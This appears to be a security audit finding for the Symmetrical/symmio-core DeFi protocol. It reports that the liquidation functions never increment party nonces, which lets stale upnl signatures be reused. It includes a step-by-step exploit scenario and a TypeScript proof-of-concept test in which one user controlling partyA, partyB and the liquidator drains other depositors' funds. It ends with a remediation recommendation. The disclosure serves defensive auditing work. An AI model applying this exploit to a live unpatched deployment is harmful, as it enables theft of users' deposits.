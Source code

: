 panprog

high

# PartyA and PartyB nonce is not incremented in any of the liquidation functions which can lead to all protocol funds being stolen in some cases

## Summary

Nonce for neither partyA nor partyB is increased in any of the `LiquidationFacetImpl` functions. However, some functions definitely influence party's upnl, so they must force to use a new signature, after the liquidation action. In particular, `liquidatePositionsPartyA` function changes partyB's `allocatedBalances` and upnl, which means that partyB must be forced to use a new signature (otherwise it can use old upnl signature with new allocatedBalance, making it possible to steal all funds from the protocol):

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L169-L173

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L181-L185

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L189-L196

The same is also true for the `liquidatePartyB` function, which modifies partyA balance:

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L294-L296

## Vulnerability Detail

All liquidation functions do not change nonce of parties, however some of them change allocatedBalances, delete positions or otherwise modify the state of the parties, which requires a nonce update to force use a new signature. While many actions specifically test for liquidation status, which might be the reason why the nonce is not updated currently. However, there are still actions which ignore liquidation status and in the future there might be more functions which somehow use this changed state even during liquidation status, so the nonce update is nonetheless required when changing state during liquidation.

The Proof of Concept for this bug shows how the actions which ignore liquidation status can be used along with "old signature", which is accepted due to nonce being the same after the liquidation action.

The scenario to exploit this bug is as following:

1. User has to control partyA, partyB and liquidator.
2. Open 2 large opposite positions between partyA and partyB such that one of them is in a high loss and the other in the same/similar profit (easy to do via  openPrice which is far away from current market price, since both partyA and partyB are controlled by the same user).
3. Make partyA liquidatable (many ways to do this: for example, opposite positions can have slightly different size with minimal locked balances, so that when the price moves, this disparency can make partyA liquidatable)
4. Call `liquidatePartyA` and `setSymbolsPrice` (there is no bad debt, because 1 position is in a big loss, the other position in a big profit, but their sum is in a small loss, which is covered by allocatd balance)
5. Sign `singleUpnlSig` for partyB at this time (partyB is in a small profit)
6. User-controlled liquidator calls `liquidatePositionsPartyA` with id of only the position which is in a loss for partyA, profit for partyB. This call increases partyB allocated balance by a very high profit of the position. This action doesn't change partyB's nonce, so previous partyB signature is still valid (this is the bug reported here)
7. At this time partyB has large inflated allocatedBalance and the same big loss, however signature for when partyB was in a small profit is still valid, because party B nonce is the same (position liquidation didn't change it). Use that older signature to sign `deallocateForPartyB`, deallocating inflated balance (which can easily be higher than total protocol deposited funds).
8. Withdraw deallocated balance for partyB. At this point all protocol funds are stolen.

## Impact

All protocol funds can be stolen if a user can control partyA, partyB and liquidator. Since partyB and liquidator roles are supposed to be easy to get, this means that most users are able to easily steal all protocol funds.

There might also be future functions which might ignore liquidation status and can be exploited due to nonce being the same after parties state change during liquidation.

## Code Snippet

Add this to any test, for example to `ClosePosition.behavior.ts`.

```ts
import { getDummyPriceSig, getDummySingleUpnlAndPriceSig, getDummyQuotesPriceSig, getDummySingleUpnlSig } from "./utils/SignatureUtils";

it("Steal all funds due to partyB nonce not increasing during the liquidation", async function () {
  const context: RunContext = this.context;

  this.protocol_allocated = decimal(1000);

  this.user_allocated = decimal(590);
  this.hedger_allocated = decimal(420);

  // some unsuspecting user deposits 1000 into protocol (but doesn't allocate it)
  this.user2 = new User(this.context, this.context.signers.user);
  await this.user2.setup();
  await this.user2.setBalances(this.protocol_allocated, this.protocol_allocated, 0);

  // exploiter user controls partyA, partyB and liquidator
  this.user = new User(this.context, this.context.signers.user);
  await this.user.setup();
  await this.user.setBalances(this.user_allocated, this.user_allocated, this.user_allocated);

  this.hedger = new Hedger(this.context, this.context.signers.hedger);
  await this.hedger.setup();
  await this.hedger.setBalances(this.hedger_allocated, this.hedger_allocated);

  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(11000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(1, 0, decimal(2, 16));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(11000)).openPrice(decimal(1)).price(decimal(1)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(10000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(2, 0, decimal(2, 16));
  await this.hedger.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(10000)).openPrice(decimal(1)).price(decimal(1)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 0.9, so partyA is in a loss of -100 and becomes liquidatable
  // user now exploits the bug by liquidating partyA
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyA(
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-100)),
  );

  await context.liquidationFacet.connect(this.liquidator.signer).setSymbolsPrice(
      this.user.signer.address,
      await getDummyPriceSig([1], [decimal(9, 17)], decimal(-100), decimal(1100)),
    );

  // get partyB upnl signature before partyA position is liquidated (at which time partyB has upnl of +100)
  var previousSig = await getDummySingleUpnlSig(decimal(100));

  // liquidate only quote 1 (temporarily inflating balance of controlled partyB)
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyA(
    this.user.signer.address,
    [1]
  );

  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("after liquidation of partyA: partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // deallocate partyB with previous signature (before partyA's position is liquidated)
  // (current partyB upnl is -1100)
  await context.accountFacet.connect(this.hedger.signer).deallocateForPartyB(decimal(1530), this.user.getAddress(), previousSig);

  var balance = await context.viewFacet.balanceOf(this.hedger.getAddress());
  console.log("PartyB balance to withdraw: " + balance/1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  await time.increase(300);
  await context.accountFacet.connect(this.hedger.signer).withdraw(balance);

  var balance = await context.collateral.balanceOf(this.hedger.getAddress());
  console.log("Withdrawn partyB balance: " + balance/1e18);
  var balance = await context.collateral.balanceOf(context.diamond);
  console.log("Protocol balance: " + balance/1e18 + " (less than unsuspected user deposited)");

  // try to withdraw unsuspected user's balance
  await expect(context.accountFacet.connect(this.user2.signer).withdraw(this.protocol_allocated))
    .to.be.revertedWith("ERC20: transfer amount exceeds balance");

  console.log("User who only deposited 1000 is unable to withdraw his deposit because partyB has stolen his funds");

});
```

## Tool used

Manual Review

## Recommendation

Add nonce increase for both partyA and party for all liquidation functions. They might not be needed in all liquidation functions, but since they're quite tricky in parties state change, I suggest to increase nonce in all of them. However, at the very least nonce should be increased in the following functions:

1. `liquidatePartyA`. Increase nonce for partyA
2. `liquidatePendingPositionsPartyA`. Increase nonce for partyA and for all corresponding partyBs (because pending quotes are liquidated, freeing up locked balance, which is a state changing action)
3. `liquidatePositionsPartyA`. Increase nonce for partyA and for all corresponding partyBs (because partyB allocatedBalance and upnl are changed and open position is liquidated)
4. `liquidatePartyB`. Increase nonce for partyA and partyB (because allocatedBalance for both parties changes).
5. `liquidatePositionsPartyB`. Increase nonce for partyA and partyB (because positions are deleted)